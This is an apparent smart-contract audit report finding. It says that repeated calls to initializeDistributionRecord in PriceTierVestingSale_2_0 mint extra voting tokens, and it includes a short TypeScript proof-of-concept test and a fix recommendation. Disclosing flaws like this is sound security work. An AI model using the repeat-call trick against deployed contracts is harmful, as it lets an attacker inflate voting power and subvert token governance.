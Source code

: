 Keen Mustard Panda

high

# Each time `initializeDistributionRecord` in `PriceTierVestingSale_2_0` is called new voting tokens are minted

## Summary

Each time `initializeDistributionRecord` in `PriceTierVestingSale_2_0` is called, new voting token are minted 


## Vulnerability Detail

By calling `initializeDistributionRecord`  in `PriceTierVestingSale_2_0` the `DistributionRecord` of an receiver can be initiated. The problem is that this function can be called multiple times for one recipient and each time voting tokens are minted to his name. This increased his voting power and skews any potential vote based on the amount of voting tokens a user has. Also even if a user claims all his tokens he will still have voting power if his `DistributionRecord` was initated more than once because when claiming his tokens the right amount of voting tokens are burned.  

Add the following POC to the file `TrancheVestingMerkle.test.ts`:

``` solidity
  it.only("A buyer can initialize before claiming", async () => {
    const user = eligible2;
    const distributor = partiallyVestedDistributor;
    const [index, beneficiary, amount] = config.proof.claims[
      user.address
    ].data.map((d) => d.value);
    const proof = config.proof.claims[user.address].proof;

    // 50% of tokens have already vested
    const claimable = BigInt(amount) / 2n;

    await distributor.initializeDistributionRecord(
      index,
      beneficiary,
      amount,
      proof
    );
    let votingTokens = await distributor.balanceOf(user.address);

    console.log(
      "The balance of voting tokens after init 1",
      votingTokens.toBigInt()
    );

    await distributor.initializeDistributionRecord(
      index,
      beneficiary,
      amount,
      proof
    );
    votingTokens = await distributor.balanceOf(user.address);
    console.log(
      "Balance of voting tokens after init 2",
      votingTokens.toBigInt()
    );
  });
´´´


## Impact

Attacker can mint as many voting tokens as he wants which renders the voting mechanism useless

## Code Snippet

https://github.com/sherlock-audit/2023-06-tokensoft/blob/1f58ddb066ab383c416cfcbf95c9902683506e96/contracts/contracts/claim/abstract/AdvancedDistributor.sol#L77-L85

## Tool used

Manual Review

## Recommendation

When initiating the `DistributionRecord` for a recipient check if there is a value for its `total`. If so skip the minting of the voting tokens  
